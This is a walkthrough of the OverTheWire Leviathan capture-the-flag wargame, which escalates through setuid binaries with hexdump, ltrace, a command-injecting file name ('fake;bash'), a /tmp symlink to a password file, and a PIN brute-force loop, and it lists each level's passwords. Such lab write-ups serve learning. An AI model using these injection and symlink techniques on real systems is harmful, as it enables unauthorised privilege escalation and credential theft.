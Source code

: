 # Leviathan

For every level `ssh leviathan[level]@leviathan.labs.overthewire.org -p 2223`

## Leviathan 0

u: leviathan0
p: leviathan0

ls -lash
cd .backup
cat bookmarks.html|grep pass

Password for leviathan1: rioGegei8m

Level 1:
u: leviathan1
p: rioGegei8m

ls -lash

There is a setuid binary called `check`. Running it prompts for a password.

hexdump -C check

We see four plaintext words 'sex','secret','god','love'
We try each of those as the password and 'sex' successfully drops us into a bash shell.

cat /etc/leviathan_pass/leviathan2

Password for leviathan2: ougahZi8Ta

Level 2:
u: leviathan2
p: ougahZi8Ta

There is a setuid binary called 'printfile'. Running it shows that it prints any file as leviathan3.

./printfile /etc/leviathan_pass/leviathan3

Crap... apparently we "can't have that file...". So we can assume there is some sort of filtering going on. Lets take a look at what the code is actually doing.

ltrace ./printfile .bashrc

__libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...> 
access(".bashrc", 4)                                          = 0
snprintf("/bin/cat .bashrc", 511, "/bin/cat %s", ".bashrc")   = 16
geteuid()                                                     = 12002
geteuid()                                                     = 12002
setreuid(12002, 12002)                                        = 0
system("/bin/cat .bashrc"

So we see it just takes our argument and supplies it to `/bin/cat`.
It doesnt do any sanitation on the filename so as long as we have access to it. We can have a file named whatever we want. In this case, we want a filename that executes another command upon evaluation by the above code.

mkdir /tmp/jdh0
touch "/tmp/jdh0/fake;bash"

Now if we run this file through the binary, it will make the `system()` call "/bin/cat fake;bash" which should give us a shell as leviathan3.

./printfile "/tmp/jdh0/fake;bash"
whoami

And voila! We are now in a bash shell as leviathan3.

cat /etc/leviathan_pass/leviathan3

The password for leviathan3 is Ahdiemoo1j

Level 3:
u: leviathan3
p: Ahdiemoo1j

ls -lash

We see another setuid binary called "level3". When we run it, we get a password prompt. Lets see what its doing.

ltrace ./level3

__libc_start_main(0x8048618, 1, 0xffffd784, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                    = -1
printf("Enter the password> ")                                = 20
fgets(Enter the password> abc                                      
"abc\n", 256, 0xf7fc55a0)                               = 0xffffd590
strcmp("abc\n", "snlprintf\n")                                = -1
puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
)                                    = 19
+++ exited (status 0) +++

It does a random string comparison that will always return false...useless.
Then it prompts for the password.
Then it compares what we provide with the string "snlprintf\n"
So if I am reading this correctly, we just have to type in "snlprintf" as the password?
And yep, we got a shell for leviathan4.

cat /etc/leviathan_pass/leviathan4

The password for leviathan4 is vuH0coox6m

Level 4:
u: leviathan4
p: vuH0coox6m

ls -lash

We see a hidden directory ".trash"

ls -lash .trash

We see a setuid binary called "bin"

.trash/bin

This just prints out a bunch of binary. I bet if we convert it to ascii, it will be the password. Just copy that binary into an online binary to ascii converter and voila!

The password for leviathan5 is Tith4cokei

Level 5:
u: leviathan5
p: Tith4cokei

ls -lash

There is yet another setuid binary called "leviathan5". Running it produces the output "Cannot find /tmp/file.log". So it is looking for that file and presumably printing it out. What if we just tried to symbolically link a file called "/tmp/file.log" to "/etc/leviathan_pass/leviathan6"

ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

No errors. So it might have worked!

./leviathan5

And there it is!

The password for leviathan6 is UgaoFee4li

Level 6:
u: leviathan6
p: UgaoFee4li

ls -lash

There is, you guessed it, another setuid binary called "leviathan6". When we run it, we see that it is looking for a 4-digit code. Possibly a pin number to give us the password. There are 10,000 possibilities so lets just brute force it yea?

for i in {0000..9999}; do ./leviathan6 $i;done

We wait for this to run and sure enough we get a shell.

cat /etc/leviathan_pass/leviathan7

The password for leviathan7 is ahy7MaeBo9

Level 7:
u: leviathan7
p: ahy7MaeBo9

ls -lash

And we see CONGRATULATIONS because this we completed Leviathan! Simple and fun!
